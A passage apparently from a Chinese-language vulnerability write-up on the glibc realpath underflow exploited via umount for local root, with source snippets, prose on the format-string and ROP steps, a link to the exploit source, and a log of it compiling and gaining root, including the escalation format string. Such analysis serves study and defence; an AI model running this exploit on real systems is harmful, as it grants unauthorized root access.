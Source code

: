 ```c
			if (path != *argv)
				free(path);
			argv++;
		}
	}

	mnt_free_context(cxt);
	return (rc < 256) ? rc : 255;
}
```
```c
#include <locale.h>

char *setlocale(int category, const char *locale);
```
```c
// util-linux/lib/canonicalize.c
char *canonicalize_path_restricted(const char *path)
{
	[...]
	canonical = realpath(path, NULL);
	[...]
	return canonical;
}
```

因为所布置的环境变量是错误的（正确的应为 "LANGUAGE=X.X"），程序会打印出错误信息，此时第一阶段的 message catalogue 文件被加载，里面的格式化字符串将内存 dump 到 stderr，然后正如上面所讲的设置 `restricted` 字段，并将一个 `L` 写到喷射栈中，将其中一个环境变量修改为正确的 "LANGUAGE=X.X"。

由于语言发生了改变，umount 将尝试加载另一种语言的 catalogue。此时 umount 会有一个阻塞时间用于创建一个新的 message catalogue，漏洞利用得以同步进行，然后 umount 继续执行。

更新后的格式化字符串现在包含了当前程序的所有偏移。但是堆栈中却没有合适的指针用于写入，同时因为 fprintf 必须调用相同的格式化字符串，且每次调用需要覆盖不同的内存地址，这里采用一种简化的虚拟机的做法，将每次 fprintf 的调用作为时钟，路径名的长度作为指令指针。格式化字符串重复处理的过程将返回地址从主函数转移到了 `getdate()` 和 `execl()` 两个函数中，然后利用这两个函数做 ROP。

被调用的程序文件中包含一个 shebang（即"#!"），使系统调用了漏洞利用程序作为它的解释器。然后该漏洞利用程序修改了它的所有者和权限，使其变成一个 SUID 程序。当 umount 最初的调用者发现文件的权限发生了变化，它会做一定的清理并调用 SUID 二进制文件的辅助功能，即一个 SUID shell，完成提权。


Bingo!!!（需要注意的是其所支持的系统被硬编码进了利用代码中，可看情况进行修改。[exp](https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/RationalLove.c)）
```
$ gcc -g exp.c 
$ id
uid=999(ubuntu) gid=999(ubuntu) groups=999(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$ ls -l a.out 
-rwxrwxr-x 1 ubuntu ubuntu 44152 Feb  1 03:28 a.out
$ ./a.out 
./a.out: setting up environment ...
Detected OS version: "16.04.3 LTS (Xenial Xerus)"
./a.out: using umount at "/bin/umount".
No pid supplied via command line, trying to create a namespace
CAVEAT: /proc/sys/kernel/unprivileged_userns_clone must be 1 on systems with USERNS protection.
Namespaced filesystem created with pid 7429
Attempting to gain root, try 1 of 10 ...
Starting subprocess
Stack content received, calculating next phase
Found source address location 0x7ffc3f7bb168 pointing to target address 0x7ffc3f7bb238 with value 0x7ffc3f7bd23f, libc offset is 0x7ffc3f7bb158
Changing return address from 0x7f24986c4830 to 0x7f2498763e00, 0x7f2498770a20
Using escalation string %69$hn%73$hn%1$2592.2592s%70$hn%1$13280.13280s%66$hn%1$16676.16676s%68$hn%72$hn%1$6482.6482s%67$hn%1$1.1s%71$hn%1$26505.26505s%1$45382.45382s%1$s%1$s%65$hn%1$s%1$s%1$s%1$s%1$s%1$s%1$186.186s%39$hn-%35$lx-%39$lx-%64$lx-%65$lx-%66$lx-%67$lx-%68$lx-%69$lx-%70$lx-%71$lx-%78$s
Executable now root-owned
Cleanup completed, re-invoking binary
```